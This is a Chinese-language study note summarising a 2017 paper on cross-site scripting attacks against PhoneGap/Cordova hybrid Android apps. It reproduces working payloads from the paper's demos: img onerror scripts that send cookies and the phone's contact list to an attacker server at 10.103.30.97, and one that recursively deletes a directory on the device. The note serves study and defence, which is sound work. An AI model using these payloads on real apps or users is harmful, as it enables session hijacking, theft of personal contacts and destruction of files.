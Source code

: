```yaml
---
title: Cross-site Scripting Attacks on Android Hybrid Applications
tags: [Meeting Paper, NTU]

---
```


# Cross-site Scripting Attacks on Android Hybrid Applications
:::info
Bao, W., Yao, W., Zong, M., & Wang, D. (2017, March). Cross-site scripting attacks on android hybrid applications. In Proceedings of the 2017 International Conference on Cryptography, Security and Privacy (pp. 56-61).
:::

這一篇論文雖然很舊了，但還是蠻有趣的
## Introduction
他在講的是現在市面上的App通常會用一些像是Apache Cordova(早期叫做PhoneGap)這類型的Hybrid框架製作一款App，但是PhoneGap的做法是利用WebView渲染畫面，因此就勢必會出現XSS相關的攻擊，這一篇論文就是在探討如何達成攻擊，以及受害範圍有多廣
* Gartner 的一份報告稱，Hybrid App在基於 HTML5 的 Web  App和本機 App之間提供了平衡，到 2016 年，將在超過 50% 的行動 App中使用
* 為了美化 UI 並在 JavaScript 程式碼中使用行動裝置的原生功能，Hybrid App必須包含第三方元件，而且它們的程式碼可能不可靠。
* 在本文的其餘部分，我們首先對WebView和PhoneGap框架的漏洞進行深入分析。 然後根據我們日常生活中行動應用的使用場景，建立了XSS攻擊混合應用的一般流程。 攻擊結果表明，對Hybrid App的 XSS 攻擊可能會對使用者的行動裝置造成更大的破壞性結果。
## Background
* What is PhoneGap?
    ![圖片](https://hackmd.io/_uploads/rJsdoZWX0.png)
    上圖顯示了PhoneGap App的架構以及如何和device component互動，當Hybrid App的某個功能需要使用 PhoneGap API 時， App可以使用 JavaScript 程式碼呼叫 API，然後 App中的特殊層將 PhoneGap API 呼叫轉換為適合幕後特定功能的device API。
## Proposed Method
* How XSS attack success on PhoneGap's App?
    ![圖片](https://hackmd.io/_uploads/SyPtsW-7R.png)
    有兩種方是可以達成這個攻擊
    * 首先從上圖可以知道，外部的資料有很多種型態，可能是一般文字、QRcode、藍牙等等媒介，而當傳送的資料出現malicious code的時候，PhoneGap Interface的App就會接收這些有問題的資料，並且直接被WebView所render，此時attacker就可以直接根據傳送的payload達到竊取機敏資料的目的
        > 在使用者的幫助下注入程式碼。 當使用者開啟將行動裝置連接到外界的通道時，將提供存取權限以允許來自另一個裝置的攻擊。 惡意程式碼是透過在不知不覺中與另一個裝置互動來注入的，然後按照與第一個裝置類似的流程來實現攻擊。
    * 另外一種則是直接嵌入有問題的code在網頁中，等到使用者瀏覽這個網頁的時候就會被PhoneGap的WebView所Render，達成和上面一樣的效果，類似傳統的攻擊，受害範圍則是cookies, session hijacking, location leaking...，用的function是`document.cookie`, `write()`, `appendChilld()`, `script` tag
## Experiment
作者提到，為了分析一些可能受到XSS攻擊的應用場景，這些 App都是使用PhoneGap框架開發的混合 App。 由於Google Play提供的大部分PhoneGap App要麼沒有使用某些存在漏洞的PhoneGap插件，要麼不顯示攻擊效果，因此很難使用真實的 App進行演示。 因此，他們demo了對他們自己的PhoneGap App的攻擊
### Cookie Stealing and Session Hijacking
作者把malicious code插在簡單的comment management system中，這個App是PhoneGap Framework做的，而且有storage XSS漏洞。如果這個 App是基於native language的，那麼JavaScript code將永遠不會被執行。 但是，在此 PhoneGap  App中，如果 App使用任何易受攻擊的 API 來顯示評論，則程式碼將在 WebView 內執行。
![圖片1](https://hackmd.io/_uploads/SJ6ehb-mR.png)
* 左邊的圖片:
    ```javascript!
    <script>alert(document.cookie)</script>
    ```
    網頁沒有任何異常情況下，作者只使用"append()" API為網頁新增註解。 透過JQuery API顯示評論字段，然後同時觸發注入的程式碼。 顯然，"append()" API 並不安全。 "innerHTML" API 比"append()"更安全，並且不會運行"script"標籤內的程式碼，因此作者可以使用"innerHTML" API 來替換。
* 中間的圖片:
    這就是用替換成innerHTML的結果，會發現這次的攻擊就沒有成功
* 右邊的圖片:
    ```javascript!
    <img src=x onerror= "alert(document.cookie )">
    ```
    但我們還是可以改變payload，讓攻擊可以成功，也就是用上述提到的第二列payload，結果就會如最右邊的截圖
---
當然我們也可以嘗試把得到的敏感資訊透過第三個payload傳出去給attacker，得到的response如下
```javascript!
<img src=x onerror= "new Image().src='http://10.103.30.97:80/cookies/attacker.php?cookie='%2bdocument.cookie">
```
![圖片](https://hackmd.io/_uploads/HJ9W2WZmC.png)
Attacker's Server Receive:
```!
http://10.103.30.97/cookies/manage.php?name=Admin&token=e3afed0047b08059d0fada10f400c1e5
```
### Steal Contact Data
這次攻擊的標的是QRcode，我們可以把惡意的code嵌入在QRcode當中，如果有利用PhoneGap的App掃描到這個QRcode，因為他是在WebView中進行render，所以這個malicious code會被triggered，這個App使用的是`phonegap-plugin-barcodescanner`這個plugin，當程式碼顯示時，`img`的`onerror`事件將會被觸發，然後使用者的聯絡資料將會傳送給攻擊者。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "navigator.contacts.find(['displayName','phoneNumbers'],
        function(c){
        r='';
            for(i=0;c[i];i++){
                if(c[i].phoneNumbers&&c[i].phoneNumbers.length){
                    r+=c[i].displayName+c[i].phoneNumbers[0].value+'\n';
            }}
            alert(r);
        new Image().src='http://10.103.30.97/c.php?d='+r; })" >
    ```
如果是用Native Language寫的App就會如左邊的圖片那樣只有顯示這個QRcode儲存的資訊，但如果是用PhoneGap寫的App，經過WebView render出來的結果，就會顯示手機的聯絡人資訊。他是用`navigator.contacts.find`這個API去呼叫PhoneGap的聯絡人plugin的Java code來搜尋使用者的聯絡人
![圖片2](https://hackmd.io/_uploads/B158hZWmR.png)

### Delete Files
這一次換成利用藍牙這個標的達成攻擊，原文提到: 
> 一般來說，如果一個應用程式具有藍牙傳輸功能，它必須能夠讀取和寫入用戶行動裝置上的文件

為了demo攻擊的效果，作者使用`cordova-plugin-bluetooth-serial`插件和`cordova-plugin-file`插件開發了一個PhoneGap應用程式。藍牙裝置的名稱是透過`innerHTML`API顯示的，安全性不夠，攻擊者可以將藍牙裝置的名稱更改為惡意程式碼來實現攻擊。 並且與前兩種設計類似的是再次使用了`onerror`事件。
* Attack Pattern
    ```javascript!
    <img src=x onerror=
        "window.requestFileSystem(LocalFileSystem.PERSISTENT,0
        ,function(f){
            f.root.getDirectory('ID_5',null,
                function (e){
                    e.removeRecursively(
                        function(){
                            alert('Delete ID_5 Success!')
                    },null); },null); },null);">
    ```

同樣的如果用native app進行連線，就不會遇到攻擊的問題(如左圖)，但如果是用右圖的PhoneGap設計的App，`window.requestFileSystem()`要求系統存取根檔案系統並傳回一個對象，該物件儲存在`FileSystem`變數f中。 它的 root 屬性包含一個`DirectoryEntry`對象，表示目前檔案系統的根目錄。 所以我們使用`f.root.getDirectory()`來搜尋根目錄中的`ID_5`目錄。 當找到目錄時，將回傳值儲存在`DirectEntry`物件e中，並呼叫第5行至第9行中的回呼函數。 然後`ID_5`目錄的`DirectEntry`物件呼叫其名為`removeRecurively()`的方法來刪除`ID_5`中的所有檔案。 第8行，右圖顯示指定目錄刪除成功的通知。 
![圖片3](https://hackmd.io/_uploads/rkNt3--mR.png)